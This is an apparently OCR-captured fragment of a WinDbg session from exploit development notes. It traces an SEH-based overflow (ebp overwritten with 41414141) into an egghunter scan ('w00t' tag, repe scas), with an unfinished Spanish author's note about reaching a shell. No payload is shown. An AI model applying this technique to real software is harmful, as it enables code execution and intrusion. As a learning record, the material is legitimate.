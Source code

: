 ```c
04f1ead9 c3              ret

0:004> u 04f1e4d0 
04f1e4d0 52              push    edx
04f1e4d1 62af771ceaf1    bound   ebp,qword ptr [edi-0E15E389h]
04f1e4d7 0470            add     al,70h
04f1e4d9 62af771ceaf1    bound   ebp,qword ptr [edi-0E15E389h]
04f1e4df 04a8            add     al,0A8h
04f1e4e1 e5f1            in      eax,0F1h
04f1e4e3 0424            add     al,24h
04f1e4e5 62af77c0e5f1    bound   ebp,qword ptr [edi-0E1A3F89h]

0:004> t
eax=00000000 ebx=00000000 ecx=000000b8 edx=77af6270 esi=00000000 edi=00000000
eip=77af6252 esp=04f1e4d4 ebp=04f1e4e0 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
ntdll!ExecuteHandler2+0x26:
77af6252 648b2500000000  mov     esp,dword ptr fs:[0] fs:003b:00000000=04f1e4d4
TBD DECIR QUE DESPUES DEL RET NO HEMOS IDO A 04f1ead9 SINO A ntdll!ExecuteHandler2+0x26 y que esto acaba volviendo a buscar en nuestra memoria o si encuentra el code nos da la shell

0:004> g
(12e0.1d20): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=74303077 ebx=00001000 ecx=00000002 edx=77ae2da0 esi=001b5868 edi=00001000
eip=04f1eab3 esp=04f1ea1c ebp=41414141 iopl=0         nv up ei pl nz ac pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010216
04f1eab3 f3af            repe scas dword ptr es:[edi]


```